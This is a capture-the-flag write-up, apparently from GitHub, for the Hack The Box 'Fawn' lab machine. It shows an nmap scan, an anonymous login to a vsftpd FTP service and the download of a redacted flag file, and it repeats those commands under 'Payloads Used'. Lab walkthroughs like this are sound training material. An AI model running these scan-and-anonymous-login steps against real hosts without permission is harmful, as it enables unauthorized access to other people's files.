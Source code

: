 ## 🦌 HTB Starting Point: Fawn  
**Level**: Easy  
**Date**: July 11, 2025  
**Goal**: Identify and exploit an anonymous FTP service to retrieve the user flag.

---

### 🧰 Tools  
- `nmap`  
- `ftp`  
- Basic Linux commands (`ls`, `get`, `cat`)  

---

### 🧭 Steps  

1. 🔎 **Scan the target with `nmap`** to detect FTP and other open services:
   ```bash
   nmap -sV -v -O -sS -p 21 10.129.X.X
   ```

---

### Output
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
```

---

2. 📂 **Connect to the FTP service anonymously:**
   ```bash
   ftp 10.129.X.X
   ```

   When prompted:
   ```
   Name: anonymous
   Password: [press Enter]
   ```

---

3. 📁 **List available files and download the flag:**
   ```bash
   ls
   get flag.txt
   quit
   ```

---

4. 📖 **Read the flag locally:**
   ```bash
   cat flag.txt
   # HTB{REDACTED}
   ```

---

### 💣 Payloads Used  
```bash
nmap -sC -sV -Pn -n -T4 10.129.X.X
ftp 10.129.X.X
# login: anonymous
# password: [enter]
ls
get flag.txt
cat flag.txt
```
